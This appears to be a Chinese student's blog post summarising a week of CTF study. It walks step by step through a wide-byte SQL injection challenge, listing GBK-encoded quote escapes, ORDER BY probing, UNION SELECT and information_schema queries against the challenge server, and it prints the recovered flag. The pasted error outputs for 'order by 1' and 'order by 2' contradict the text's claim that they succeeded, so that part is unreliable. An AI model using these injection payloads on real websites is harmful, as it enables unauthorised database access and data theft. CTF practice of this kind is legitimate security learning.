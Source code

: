 ```yaml
---
layout: post
title: "第六周总结"
date:  2017-5-17 14:58:44
description: "第六周总结"
tag: 总结
---
```



# 第六周总结
## 本周学习内容
1. 本打算先看《web深度剖析》的，但是看了一上午书发现只看书并没有什么用，还是得实践的。。。然后开始了南邮ctf之旅，做了大约12个web题，有些是自己试出来的，还有一些想不出来看的百度的wp。还做了一些学校ctf上的几个web题，变量覆盖那个题最后没拿到flag就是因为最后一步的base混合解码（抓紧学python）
2. 所做的除注入题以外的web题的最深感悟：拿到题先看源代码，源代码找不到什么思路就用burpsuite抓点东西看，大部分题都是这个套路。嗯。
3.终于开始看python，安装python，跟着网站学了一些基础的操作，试着写了一些简单的例子。。。
## 注入题解1：
网址为
```
http://103.238.227.13:10083/
```
首先，什么是宽字节
GB2312、GBK、GB18030、BIG5、Shift_JIS等这些都是常说的宽字节，实际上只有两字节

```
http://103.238.227.13:10083/?id=-1%d5' 
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''-1誠'' LIMIT 1' at line 1
```
宽字节注入

```
http://103.238.227.13:10083/?id=-1%d5%27 order by 1 
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 1' at line 1
```
```
http://103.238.227.13:10083/?id=-1%d5%27 order by 2
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 1' at line 1
```
order by 判断有多少列
```
http://103.238.227.13:10083/?id=-1%d5%27 order by 3
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 1' at line 1
```
1和2都可以，但是到3的时候不可以，说明数据库有两列
```
http://103.238.227.13:10083/?id=-1%d5%27 union select database(),null --+  
```
查询数据库正常，返回sql5
```
http://103.238.227.13:10083/?id=-1%d5%27 union select 1,group_concat(table_name) FROM information_schema.tables WHERE table_schema=database() --+
```
查询所有字段名
```
http://103.238.227.13:10083/?id=-1%d5%27 union select 1,group_concat(id,0x7e,string) FROM .key --+
```
查询字段内容
题目要求查询id=1的string字段，于是string内容为
```
54f3320dc261f313ba712eb3f13a1f6d
```

